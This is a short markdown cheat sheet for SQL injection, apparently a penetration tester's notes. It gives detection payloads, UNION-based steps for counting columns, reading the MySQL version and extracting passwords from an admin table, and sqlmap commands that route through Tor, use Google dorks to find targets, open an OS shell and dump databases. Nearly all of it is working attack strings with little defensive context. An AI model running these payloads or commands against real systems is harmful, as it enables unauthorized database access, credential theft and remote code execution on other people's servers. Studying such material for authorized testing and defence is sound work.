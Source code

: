 # SQL injection
		Detecting SQL injection vulnerabilities
- Single quote '	`https://site/news.php?id=5'`
- Boolean conditions `https://site/news.php?id=5 OR 1=1`
- Timed base `https://site/news.php?id=5 or SLEEP(25)`

<!-- -->

				Blind SQL injection
the application does not return the results of the SQL query or the details of any database errors within its responses. Blind vulnerabilities can still be exploited to access unauthorized data.
				
				
				Finding Number of columns
-- Increment until you get a error 				
`http://ip/news.php?id=5 order by 1/*`

				Checking Union Fuction
-- union all Number of columns found
-- `http://ip/news.php?id=5 union all select 1,2,3/*`

				Check MYSQL version
-- `http://$ip/news.php?id=5 union all select 1,@@version,3/*`

				Getting Column and Table Names
-- Table Names
-- `http://ip/news.php?id=5 union all select 1,2,3 from admin/*`
-- Column Names
-- `http://ip/news.php?id=5 union all select 1,password,3 from admin/*`

					SQLMap
			
- Scan through Tor
	--tor-type=SOCKS5
- List Databases
	--dbs

-- Use google Dorking
`sqlmap -g “payload” –-random-agent -f –-batch –-answer=”extending=N,follow=N,keep=N,exploit=n”n`

`sqlmap -u http://10.10.10.10 -p parameter`
`sqlmap -u http://10.10.10.10  --data POSTstring -p parameter`
`sqlmap -u http://10.10.10.10 --os-shell`
`sqlmap -u http://10.10.10.10 --dump`
